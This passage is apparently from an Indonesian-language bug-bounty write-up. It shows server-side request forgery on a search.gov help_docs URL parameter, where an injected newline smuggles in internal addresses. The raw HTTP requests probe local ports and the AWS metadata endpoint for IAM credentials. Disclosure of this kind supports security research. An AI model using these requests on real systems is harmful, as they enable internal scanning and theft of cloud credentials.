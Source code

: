 Response :

```
HTTP/1.1 200 OK
(snip)
{"body":"<div class='alert alert-error'>Unable to retrieve <a href='http://127.0.0.1:21/?\nhttps://search.gov/manual/account.html'>http://127.0.0.1:21/?\nhttps://search.gov/manual/account.html</a>.</div>"}

```

Kalau menambahkan *http://127.0.0.1:22/?%0A* sebelum url parameter dan send request, respon seperti berikut (10,468ms. (Port is open))

Request :

```
GET /help_docs?url=http://127.0.0.1:22/?%0Ahttps%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html HTTP/1.1
(snip)
```

Response :

```
HTTP/1.1 200 OK
(snip)
{"body":"<div class='alert alert-error'>Unable to retrieve <a href='http://127.0.0.1:22/?\nhttps://search.gov/manual/account.html'>http://127.0.0.1:22/?\nhttps://search.gov/manual/account.html</a>.</div>"}
```

tambahkan *http://169.254.169.254/latest/meta-data/iam/security-credentials/?%0A*

Requests :

```
GET /help_docs?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/?%0Ahttps%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html HTTP/1.1
(snip)
```

Response :

```
HTTP/1.1 200 OK
(snip)
{"body":""}
```

tambahkan *http://169.254.169.254/latest/meta-data/iam/security-credentialx/?%0A* maka _Unable to retrieve_ ** (/security-credentialx does not exists)**

Request :

```
GET /help_docs?url=http://169.254.169.254/latest/meta-data/iam/security-credentialx/?%0Ahttps%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html HTTP/1.1
(snip)
```
